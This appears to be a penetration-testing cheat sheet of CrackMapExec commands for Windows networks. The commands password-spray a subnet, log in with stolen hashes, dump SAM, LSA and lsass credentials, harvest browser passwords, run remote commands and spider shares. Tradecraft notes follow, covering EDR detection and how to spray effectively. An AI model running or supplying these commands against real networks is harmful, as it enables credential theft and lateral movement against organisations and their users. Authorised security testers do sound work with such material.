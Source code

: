 
#### CrackMapExec Advanced Usage
```bash
# Password spraying across network
crackmapexec smb 10.0.0.0/24 -u username -p 'Password123' --continue-on-success

# Test login with hash
crackmapexec smb 10.0.0.0/24 -u administrator -H 'HASH' --continue-on-success

# Dump SAM hashes
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' --sam

# Dump LSA secrets
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' --lsa

# Get logged-in users
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' --loggedon-users

# Run PowerView commands
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' -M powerview -o COMMAND='get-netuser'

# Dump lsass memory
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' -M lsassy

# Extract credentials from local browsers
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' -M browsers

# Execute commands
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' -x 'whoami'
crackmapexec smb 10.0.0.0/24 -u administrator -p 'password' -X '$PSVersionTable'

# Check if user is admin
crackmapexec smb 10.0.0.0/24 -u username -p 'password' --local-auth --check-admin

# Map network shares
crackmapexec smb 10.0.0.0/24 -u username -p 'password' --shares

# Find specific files
crackmapexec smb 10.0.0.0/24 -u username -p 'password' -M spider_plus --share 'C$' -o PATH='C:\\Users'

# Database queries (view successful logins)
cmedb
> workspace
> proto smb
> creds
```

IMPORTANT NOTES:
- Always test commands with single target before network-wide execution
- Monitor command impact and network traffic
- Some commands may trigger antivirus/EDR
- Use --local-auth flag when targeting local accounts
- --continue-on-success is crucial for password spraying
- Results can be found in ~/.cme/logs/
